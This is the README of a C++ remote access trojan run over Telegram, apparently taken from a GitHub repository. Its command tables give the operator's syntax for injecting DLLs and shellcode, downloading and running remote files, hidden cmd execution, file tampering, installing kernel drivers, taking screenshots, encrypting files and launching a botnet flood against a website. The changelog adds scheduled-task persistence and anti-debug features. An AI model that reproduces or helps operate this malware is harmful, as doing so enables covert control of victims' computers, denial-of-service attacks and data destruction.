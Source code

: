 ﻿# -= B4DB4B3-RAT =-
 Program for remote computer management using Telegram on C++ - by B4DB4B3   
 P.S: I didn't do animations on buttons. I can do it in the future, If you like the project
### [Interface]  
 ![UI](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWUI.png)   
 ![EXAMPLE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/COMMANDLIST.png)   
### [Weight of stub and builder]  
 #### Around 600-500 KB
 ![WEIGHT](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/WEIGHT.png)  


# [Commands (Will be added)]
<details>
	<summary>View command list</summary>
	
### Process manager:      
 Command name         | Parameters                             | Description
 -------------------- | -------------------------------------- | -----------
 /user[ID] processes  |                                        | get process list    
 /user[ID] closeproc  | [processname.exe]                      | close process    
 /user[ID] inject_dll | [processname.exe] [C:\Path\To\File.dll]| inject dll in process
 /user[ID] inject_shell | [processname.exe] [shellcode]          | inject shellcode in process
 
### Auxiliary: 
 Command name         | Parameters                                              | Description
 -------------------- | ------------------------------------------------------- | -----------
 /user[ID] loader     | [https://google.com/file.exe] [C:\ProgramData\file.exe] | upload file from [LINK] to [PATH]    
 /user[ID] run        | [C:\ProgramData\file.exe] [Args to run file / Or empty] | run file from [PATH] with arguments [ARGS]   
   
### Jokes:   
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] disable pc      |                                                         | disable computer of user    
 /user[ID] close           |                                                         | close user   
 /user[ID] disable display |                                                         | disable display user    
   
### File manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] dir             | [C:\Folder]                                             | show files and folders in directory    
 /user[ID] dir del_file    | [C:\Path\To\File.exe]                                   | delete file in directory    
 /user[ID] dir write       | [C:\Path\To\File.txt] [Example text]                    | write text in file    
 /user[ID] dir read        | [C:\Path\To\File.txt]                                   | read text in file  

### Service manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] service show    |                                                         | show all drivers in system    
 /user[ID] service add     | [Name] [DisplayName] [C:\ProgramData\yourdriver.sys] [Type-Driver] [Start-Type] | add your driver in system, Check Type-Driver and Start-Type values in "Service manager parse table"    
 /user[ID] service delete  | [NameService]                                           | delete driver from system
 /user[ID] service start   | [NameService]                                           | start the stopped service
 /user[ID] service stop    | [NameService]                                           | stop the started service


### Screen manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] screenshot      |                                                         | take screenshot, upload her on prnt.sc and send you 

### BotNet:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /botnet start             | [https://google.com]                                    | all users send requests on site
 /botnet stop              |                                                         | stop sending requests

### CMD manager:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] system          | [/c ping google.com]                                    | run cmd.exe with arguments (hidden)

### File cryptor:
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /user[ID] filecrypt       | [C:\Path\To\File.exe] [yourkey]                         | crypt file with AES256
 /user[ID] filedecrypt     | [C:\Path\To\File.exe] [yourkey]                         | decrypt file with AES256

### RAT:   
 Command name              | Parameters                                              | Description
 ------------------------- | ------------------------------------------------------- | -----------
 /online                   |                                                         | show online users   

</details>
	
# [Coming soon]
- [x] Add file manager
- [x] Add function to get screenshot
   - [ ] Add function to record desktop
   - [ ] Add function to record microphone
- [x] Add more jokes (open url, block url, close process and etc.)
- [x] Add process control (inject dll, shellcode and etc.)
- [x] Add more information about PC 
- [x] Add Service manager (for deleting, showing and adding your system drivers)
- [ ] Add Anti-analysis + Anti-debug functions

# [CHANGELOG]
<details>
  <summary>View changelog</summary>
	
Date       | Time  | Description
---------- | ----- | -----------
17.10.2020 | 16:30 | Code is optimized, added commands   
18.10.2020 | 18:40 | Code is refactored and optimized, fixed bugs (command inject dll didn't work), added new function in builder (write in scheduler task), updated GUI, added re-launch protection, added commands ![NEWUI](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWUI.png)
19.10.2020 | 01:30 | Deleted traces of debugging (sorry for this), added more information about PC ![NEWINFO](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/NEWINFO.png)
19.10.2020 | 17:20 | Clear warnings, added Service manager ![SERVICE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/SERVICE.png)   
20.10.2020 | 11:19 | Code review, bug fix, added new function (screen manager) (wrote yourself api on wininet for work with prnt.sc api)    ![SCREEN](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/SCREENTOOL.png)  
20.10.2020 | 18:49 | Update GUI (change location objects)
24.10.2020 | 17:11 | Added function for inject shellcode in process ![SHELLCODE](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/INJECT_SHELL.png)
30.10.2020 | 14:29 | Added botnet ![BOTNET](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/BotNet.png)
03.11.2020 | 16:53 | Fixed command "system" (cmd manager). Added new commands in service manager (start, stop driver). Cmd manager: ![EXAMPLE1](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/system-example1.png) ![EXAMPLE2](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/system-example2.png) 
07.11.2020 | 22:16 | Code refactored. Warnings deleted. Added encryption for your botapi with AES256 (To avoid being stolen from hex). Update list of processes (AntiDebug). ![BeforeBotApi](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/Before_BotApi.png) ![AfterBotApi](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/After_BotApi.png)
08.11.2020 | 20:25 | Added file cryptor. See command list ![1](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/FileCrypt/1.png) ![2](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/FileCrypt/2.png) ![3](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/FileCrypt/3.png) ![4](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/FileCrypt/4.png)
19.11.2020 | 20:20 | Code refactored. Fixed command "dir del_file". Added commands in File Manager: "dir read" and "dir write" to read and write files (see command list) ![dir_read](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/dir/dir_read.png) ![dir_write](https://github.com/4B4DB4B3/B4DB4B3-RAT/blob/main/Screenshots/dir/dir_write.png)

</details>

## Service manager parse table:
### [service add] params [Type] driver
String param             | Value
------------------------ | --------------------------
win32-service            | SERVICE_WIN32
adapter-service          | SERVICE_ADAPTER
kernel-driver            | SERVICE_DRIVER
interactive-process      | SERVICE_INTERACTIVE_PROCESS
user-serice              | SERVICE_USER_SERVICE
userservice-instance     | SERVICE_USERSERVICE_INSTANCE
pkg-service              | SERVICE_PKG_SERVICE


### [service add] param [StartType] driver

String param             | Value
------------------------ | --------------------------
auto-start               | SERVICE_AUTO_START
boot-start               | SERVICE_BOOT_START
demand-start             | SERVICE_DEMAND_START
disabled                 | SERVICE_DISABLED
system-start             | SERVICE_SYSTEM_START

#### Read more here: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea

# [LICENSE]
 ![B4DB4B3-RAT](https://github.com/4B4DB4B3/B4DB4B3-RAT) is licensed under MIT License - https://mit-license.org/
